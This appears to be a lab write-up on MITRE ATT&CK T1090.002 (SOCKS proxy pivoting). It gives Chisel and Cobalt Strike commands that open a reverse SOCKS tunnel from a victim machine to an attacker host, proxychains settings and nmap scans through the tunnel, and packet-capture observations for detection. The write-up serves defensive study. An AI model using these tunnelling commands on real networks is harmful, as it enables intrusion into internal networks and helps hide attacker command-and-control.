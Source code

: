 # T1090.002 SOCKS Proxy Pivoting

## Description

Adversaries might using proxy tools to establish a SOCKS proxy connection between the client (victim) and server (attacker) machine to redirect attacker network into target's internal network.

This can be used to masquerade their actual c2 server from defender perspective.

Various tools can perform this activity such as Chisel, Cobalt Strike beacon etc.

## Experiment

### Chisel

Victim's Internal machine IP address: 172.16.168.11\
Victim's machine IP address: 192.168.168.121\
Attacker's machine IP address: 192.168.45.229

#### In Attacker Server

```
Setup Proxy Server in Attacker
> chisel server --port 8082 --reverse
```

Once command above executed, it can see that the machine start listening to port `8082`. 

![chisel_server_listening_port](./Image_T1090.002/chisel_server_listening_port.png)

#### In Victim Server

```
Setup Proxy Client in Victim
> chisel.exe client <ATTACKER_MACHINE_IP>:8082 R:socks
```

![chisel_client_1](./Image_T1090.002/chisel_client_1.png)

#### Network Packet from Victim Machine

```
From attacker machine
> proxychains nmap 172.16.168.11
```

![chisel_pcap_1](./Image_T1090.002/chisel_pcap_1.jpg)

It can bee seen that before the internal connection start, the victim machine will send some network packet to the port `8082` which is the SOCKS proxy establishment from attacker machine. Probably that might be a clue to identify the proxy connection.

### Cobalt Strike Beacon

Victim's Internal machine IP address: Internal 172.16.228.11\
Victim's machine IP address: 192.168.228.121\
Attacker's machine IP address: 192.168.45.193

```
Attacker Teamserver
beacon > socks 10597
```

Once created a SOCKS proxy, the teamserver will starts listen to the port set from command above.

![cs_server_socks_1](Image_T1090.002/cs_server_socks_1.png)

```
From attacker machine
> sudo nano /etc/proxychains.conf

Inside /etc/proxychains
...
[Proxy List]
...
# Add the line below
socks4 192.168.45.193 10597
...

> proxychains nmap 172.16.228.11
```

Based on the pcap file caputre using `Pktmon`, there is no actual SOCKS proxy port found. However, before any initiation of between the internal machine, there is a connection made to the c2 via the c2 listening port (443). Most probably those packet might contains the SOCKS proxy port from c2.

![cs_client_socks_1](./Image_T1090.002/cs_client_socks_1.png)

## Side Notes

### Pktmon Command Used in Client Machine

```
Start moninitoring network 
> pktmon start --capture 

Stop monitoring network
> pktmon stop

Convert .etl to .pcap
> pktmon etl2pcap <PATH_TO_ETL> -o <PATH_TO_PCAP>
```
